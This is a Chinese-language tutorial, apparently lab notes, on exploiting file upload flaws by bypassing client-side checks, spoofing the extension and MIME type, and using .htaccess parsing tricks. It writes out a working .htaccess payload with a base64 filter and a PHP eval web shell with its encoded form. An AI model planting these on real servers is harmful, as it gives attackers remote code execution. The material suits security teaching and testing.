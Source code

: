 # file upload 漏洞

> ​		文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。
>
> ​		这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。



# 客户端限制绕过

> ​		部分网站会使用最简单的js脚本在客户端对上传的文件进行过滤，但是没有在服务端进行过滤，被攻击者绕过客户端验证进行攻击，如禁用js（删除/修改部分js代码）、中间人攻击等方式进行绕过。程序员在开发的时候必须明确一点，前端的限制主要用于防止用户操作错误，而后端的限制主要用于防止黑客攻击。



## 禁用js方式

上传一张正常的图片，上传成功

![image-20231023143729065](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023143729065.png)



尝试上传php文件，被前端禁止

![image-20231023145130470](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023145130470.png)



禁用js

F12打开，ctrl+shift+p 打开运行   搜索JavaScript   禁用

![image-20231023145216028](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023145216028.png)



再次提交，上传成功

![image-20231023145716062](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023145716062.png)



执行成功

![image-20231023145745093](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023145745093.png)

## 中间人攻击

这里在尝试使用中间人工具绕过客户端限制，思路，首先将一个php文件的后缀名修改为png，客户端将文件上传到服务器，在上传服务器的过程中使用抓包软件进行拦截，修改文件的后缀名为php。



提交一个名为1p.php.png的文件

![image-20231023152255025](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023152255025.png)



使用抓包软件进行劫持，将.png删除，然后提交给服务器

![image-20231023152408852](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023152408852.png)



提交成功

![image-20231023152313489](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023152313489.png)



# 服务端检测 使用中间人攻击绕过

此处的服务端检测客户端上传过来的MIME，判断是否为白名单（image/png等）

首先尝试直接上传，无法上传

![image-20231023145920512](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023145920512.png)

开启代理进行劫持，查看客户端上传的数据包

![image-20231023150115632](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023150115632.png)

Content-Type就是MIME，尝试修改这里进行提交，看看服务器是不是检测这里

![image-20231023152529696](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023152529696.png)

提交成功

![image-20231023150347742](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231023150347742.png)



# 图片木马

图片木马是指将一段php的木马添加到文件中，通过文件上传漏洞，上传到服务器，在通过一系列其他的漏洞配合使用（如：文件包含、.htaccess文件解析漏洞等），将图片使用php进行解析，从而执行其中的php代码。



首先制作一个图片木马，准备一个正常的图片和php一句话木马，制作的图片木马为1p1p.png	

php木马内容为输出系统的passwd文件

![image-20231024162622296](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024162622296.png)

![image-20231024161559283](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024161559283.png)



通过文件上传漏洞上传到服务器



![image-20231024161647363](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024161647363.png)

在进行.htaccess文件解析漏洞前先查看我们上传的图片

此时是一张正常的他图片

![image-20231024162800697](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024162800697.png)





准备.htaccess文件

此文件的作用是让服务端将1p1p.png文件当成php文件进行解析

![image-20231024162205446](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024162205446.png)



将.htaccess文件通过文件上传漏洞提交

![image-20231024162408802](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024162408802.png)



访问我们上传的1p1p.png图片木马，发现此时文件已经被当成php文件进行解析了

![image-20231024162516428](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024162516428.png)



# .htaccess 文件 base64绕过

服务端对上传的文件进行字符串扫描，禁止了php语法，即使上传图马也会进行字符串扫描，



首先上传.htaccess文件，文件内容为所有以.jpg结尾的文件进行php解析，将1.jpg文件经过base64解码后在进行php解析

```
AddType application/x-httpd-php .jpg
php_value auto_append_fi\
le "php://filter/convert.base64-decode/resource=1.jpg"
```



将.htaccess文件上传，上传成功

![image-20231104144608421](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104144608421.png)



构造一句话木马

```
<?php @eval($_POST['cmd']);?>
```



对一句话木马进行base64编码

```
PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=
```



将经过base64编码后的一句话木马写入1.jpg，然后上传

![image-20231104144851719](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104144851719.png)

![image-20231104144909763](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104144909763.png)



成功拿到flag值

![image-20231104145040083](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104145040083.png)



使用中国蚂剑进行连接，连接成功

![image-20231104145128608](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104145128608.png)

![image-20231104145145333](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104145145333.png)

